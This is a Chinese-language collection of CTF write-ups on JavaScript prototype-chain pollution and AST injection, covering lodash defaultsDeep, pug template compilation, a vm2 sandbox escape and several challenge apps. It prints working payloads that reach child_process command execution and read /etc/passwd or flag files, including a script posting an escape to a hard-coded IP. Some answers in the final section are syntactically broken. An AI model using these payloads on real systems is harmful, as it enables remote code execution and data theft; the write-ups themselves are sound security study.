


 JS原型链污染及AST注入的几道题目


先放一张原型链的图压压惊

<!--  -->


 redpwnctf 2019 blueprint

 功能分析

 创建用户

`userId` 作为每个用户的cookie

```javascript
userId = makeId()
```

创建了一个空对象 `bpProto`：

```javascript
const bpProto = {}
```

然后，创建了一个对象 `flagBp`，它有一个属性 `content`，值是 `flag`，说明每个用户其实都有一个flag

```javascript
const flagBp = {
  content: flag,
}
```

- `flagBp` 的 `constructor` 属性被设置为一个新对象，这个新对象有一个属性 `prototype`，值是 `bpProto`。
- `flagBp` 的 `__proto__` 属性也被设置为 `bpProto`。

```javascript
flagBp.constructor = {prototype: bpProto}
flagBp.__proto__ = bpProto
```

最后，组装为user对象

```javascript
user = {
  bpProto,
  blueprints: {
    [makeId()]: flagBp,
  },
}
```

关键：

```javascript
flagBp.__proto__ = bpProto
```

`flagBp` 的 `constructor` 属性被设置为一个新的对象，这个对象的 `prototype` 属性是 `bpProto`。这个操作并不会影响 `flagBp` 的原型链，因为 `constructor` 属性并不参与原型链的查找。

`flagBp` 的 [[Prototype]] 属性（即 `__proto__`）被设置为 `bpProto`。这个操作会改变 `flagBp` 的原型链。之后，当你试图访问 `flagBp` 上不存在的属性时，JavaScript 将在 `bpProto` 对象上查找这个属性。

 创建笔记

```javascript
const mergeObj = {}
mergeObj.constructor = {prototype: user.bpProto}
mergeObj.__proto__ = user.bpProto
parsedBody = _.defaultsDeep(mergeObj, JSON.parse(body))
```

 展示笔记

```javascript
const blueprintId = makeId()
user.blueprints[blueprintId] = {
content: parsedBody.content,
public: parsedBody.public,
}

res.end(blueprintId)
```

 lodash原型链污染

在 Lodash 的 `_.defaultsDeep` 函数中，如果攻击者可以控制源对象，并使其包含对 `Object.prototype` 的引用，那么就可以通过这个函数污染原型链。

例如:

```javascript
let user_input = { malicious_key: 'malicious_value' };
_.defaultsDeep({}, user_input);
```

如果可以控制 `user_input`，并将其设置为 `{ '__proto__': { malicious_key: 'malicious_value' } }`，那么所有对象的 `malicious_key` 属性将被设置为 `'malicious_value'（根据原型链的查找规则）

Lodash （4.17.21）修复，而代码中的 Lodash 版本小于4.17.21

 解题思路

我们看到 `flagBp` 的两个属性, `constructor.prototype` 和 `__proto__` 都指向了 `bpProto`

那么 `flagBp.public` 属性就只能去原型链上找，而 `flagBp.__proto__` 指向了 `bpProto`

```jsx
flagBp.public -> flagBp.__proto__.public -> bpProto.prototype.public
```

那么如何修改 `bpProto.prototype` 呢？

回到这里

```jsx
const mergeObj = {}
mergeObj.constructor = {prototype: user.bpProto}
mergeObj.__proto__ = user.bpProto
parsedBody = _.defaultsDeep(mergeObj, JSON.parse(body))
```

合并的时候，如果能做到：

```jsx
mergeObj.constructor.prototype.public = true
// 或者
mergeObj.__proto__.public = true
```

因此 payload 为：

```jsx
"constructor": {"prototype": {"public": true}}

```

思考，为什么如下payload不行？

```jsx
"__proto__": {"public": true} // 试一试？
```
 BambooFox CTF 2021 TimeToDraw

原型链污染的点在：存在很明显的赋值动作
```javascript
app.get('/api/draw', (req, res) => {
    let { x, y, color } = req.query;
    if (x && y && color) canvas[x][y] = color.toString();
    res.json(canvas);
});
```

如果是admin用户，则token为 `secret.ADMIN_TOKEN`，我们不知道

如果没有进入这个if，则 userData.token 会去原型链上查找，所以千万不要成为admin!

```jsx
if (req.signedCookies.user && req.signedCookies.user.admin === true) {
  userData.isGuest = false;
  userData.isAdmin = req.cookies.admin;
  userData.token = secret.ADMIN_TOKEN;
}

if (req.query.token && req.query.token.match(/[0-9a-f]{16}/)
    && hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token) {
  res.send(secret.FLAG);
} else {
  res.send("NO");
}
```

因此payload如下：

```python
const crypto = require('crypto');
const hash = (token) => crypto.createHash('sha256').update(token).digest('hex');

token = "12345678900000000";
hostname = "::ffff:127.0.0.1";
result = hash(hostname + token);
console.log(result); // 0571d35ff568c6faacaa8f931b66729b9bc12a2c1231b8dc8c57073f35c8b62f
```

首先污染原型链：

```python
http://localhost:3000/api/draw?x=__proto__&y=token&color=1cd6705c4f0df9b640deaa47c5510b7b8b4303acc3bf1e95670e975b889a6ce9
```

然后获取flag

```python
http://localhost:3000/flag?token=1234567890000000
```

结论：当对象访问一个不一定存在的属性时，极易被原型链污染攻击

 HTB blitzprop

**payload**

```json
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('cmd')"
		}
}
```

 AST injection + 原型链污染
详细了解：
[https://xz.aliyun.com/t/12635](https://xz.aliyun.com/t/12635) 

通过插入AST来实现注入

<!--  -->

 pug AST注入

```javascript
<!-- /node_modules/pug-code-gen/index.js -->

if (debug && node.debug !== false && node.type !== 'Block') {
    if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
            js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
    }
}
```

注入：

```javascript
const pug = require('pug');

Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

const source = `h1= msg`;

var fn = pug.compile(source, {});
console.log(fn.toString());

/*
function template(locals) {
    var pug_html = "",
        pug_mixins = {},
        pug_interp;
    var pug_debug_filename, pug_debug_line;
    try {;
        var locals_for_with = (locals || {});

        (function (console, msg, process) {;
            pug_debug_line = 1;
            pug_html = pug_html + "\u003Ch1\u003E";;
            pug_debug_line = 1;
            pug_html = pug_html + (pug.escape(null == (pug_interp = msg) ? "" : pug_interp));;
            pug_debug_line = console.log(process.mainModule.require('child_process').execSync('id').toString());
            pug_html = pug_html + "ndefine\u003C\u002Fh1\u003E";
        }.call(this, "console" in locals_for_with ?
            locals_for_with.console :
            typeof console !== 'undefined' ? console : undefined, "msg" in locals_for_with ?
            locals_for_with.msg :
            typeof msg !== 'undefined' ? msg : undefined, "process" in locals_for_with ?
            locals_for_with.process :
            typeof process !== 'undefined' ? process : undefined));;
    } catch (err) {
        pug.rethrow(err, pug_debug_filename, pug_debug_line);
    };
    return pug_html;
}
*/
```

 一个简单的pug引擎

请问如下代码是否存在AST injection?

```javascript
// Step 1: 解析 - 将 Pug 语法解析成 AST
function parse(pugCode) {
  let lines = pugCode.split('\n');
  let ast = lines.map((line, index) => {
    let match = /^(\s*)(\w+)(?:\s*(.*))?$/g.exec(line);
    if (match) {
      let indent = match[1].length;
      let tag = match[2];
      let type;
      let text = match[3] || "";
      if (text.startsWith("@")) {
        [type, text] = text.slice(1).split(' ');
      }
      return { indent, tag, type, text, line: index + 1 }; // Add type to AST node
    } else {
      throw new Error(`Parsing error on line ${index + 1}`);
    }
  });
  return ast;
}

// Step 2: 编译 - 将 AST 转化为一个 JavaScript 函数
function compile(ast) {
  return function(context) {
    return ast.map(node => {
      try {
        let html = "<" + node.tag + ">";
        if (node.text.startsWith("{") && node.text.endsWith("}")) {
          let varName = node.text.slice(2, -1);
          if (varName in context) {
            let content = context[varName];
            // If the type of the node is 'uppercase', turn the content to uppercase
            if (node.type === 'uppercase') {
              content = content.toUpperCase();
            }
            html += content;
          } else {
            throw new Error(`Undefined variable: ${varName}`);
          }
        } else {
          html += node.text;
        }
        html += "</" + node.tag + ">";
        return html;
      } catch (error) {
        throw new Error(`Error rendering line ${node.line}: ${error.message}`);
      }
    }).join('\n');
  }
}

// Step 3: 渲染 - 使用上下文对象来执行编译后的函数并生成 HTML
function render(templateFn, context) {
  try {
    return templateFn(context);
  } catch (error) {
    console.error(error.message);
    return null;
  }
}

// 使用示例：
let pugCode = "p {name}\n"; // This is Pug syntax
pugCode += "div @uppercase Hello, {name}";
let ast = parse(pugCode);
let templateFn = compile(ast);
let html = render(templateFn, { name: "John Doe" });
console.log(html);
```

 babyjs

```javascript
const { NodeVM } = require("vm2");

let untrusted = `
( function () { let result = 'aaa';
  try {
    a = {};
    a.toString = function() {
      return {};
    }
    process.listeners(a);
  } catch(e) {
    result =
      e.constructor.constructor(
       "return this.process.mainModule.require('child_process').execSync('cat /etc/passwd')")().toString();
  }
return result; })();
`;

untrusted = "eval(`" + untrusted + "`)";

let vm = new NodeVM({
  // eval: false,
  wasm: false,
  wrapper: "none",
});

let result = "";

try {
  result = vm.run(`return ${untrusted}`);
} catch (err) {
  console.log(err);
  result = err.toString();
}
console.log(result);
```

最终脚本如下：

```python
import requests

r = requests.post('http://175.27.159.126:10010/',
           data={
               'calc':
               """eval(`
( function () { let result = 'aaa';
  try {
    a = {};
    a.toString = function() {
      return {};
    }
    process.listeners(a);
  } catch(e) {
    result =
      e.constructor.constructor(
       "return this.process.mainModule.require('child_process').execSync('cat flag.txt')")().toString();
  }
return result; })();
`)"""
           })
print(r.headers)
print(r.text)
```

 intigriti

如何创建一个admin用户？

<!--  -->

关键代码：

```javascript
user = JSON.parse(req.body)
let newUser = Object.assign(baseUser, user)
```

但是我们可以完全控制 `user` ，因此可以如下步骤：

```javascript
{"__proto__":{"isAdmin":true},"inviteCode":"xxxxxxxxxx"}
>let user = JSON.parse('{"__proto__":{"isAdmin":true},"inviteCode":"xxxxxxxxxx"}')
>user.isAdmin // ? why
 undefined
>user.__proto__.isAdmin
 true
```

答案当使用 `JSON.parse()` 解析一个JSON字符串时，`__proto__` 属性并不会按照原型链的方式进行设置。JSON字符串的解析完全基于其自身的文字内容，它不会改变对象的原型链。也就是说，`JSON.parse()` 不会把 `__proto__` 理解为原型链的指示，而只是把它当作一个普通的属性来处理。

payload

```javascript
{"__proto__": {"isAdmin": True}, "user": "test", "inviteCode": 0}
```


 noood

题目思考：flag 在根目录， 
```javascript
flag{xxxxxx}
```

源代码：
```javascript
const express = require('express');
const bodyParser = require('body-parser');
const fs = require('fs');
const path = require('path');
const app = express();
const config = {}

app.use(bodyParser.json());

app.post('/:lib/:f', (req, res) => {
    let jsonlib = require(req.params.lib);
    let valid = jsonlib[req.params.f](req.body);

    let p;
    if(config.path) {
        p = config.path;
    }

    let data = fs.readFileSync(p).toString();

    res.send({
        "validator": valid, 
        "data": data, 
        "msg": "data is corrupted"
    });
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
    console.log(`Server is running on port ${PORT}`);
});

```

 fs.readFileSync 

答案no! 参数问题


 require报错

答案

```javascript
require('../.../../flag')
```

 vm

答案

```javascript
require('vm').runInNewContext(['this.constructor.constructor('return this.process'))().mainModule.require('fs').readFileSync('/flag').toString()'])
```

 原型链污染

答案

```javascript
require('flat').unflatten({'__proto__.path'})
```


<!--  -->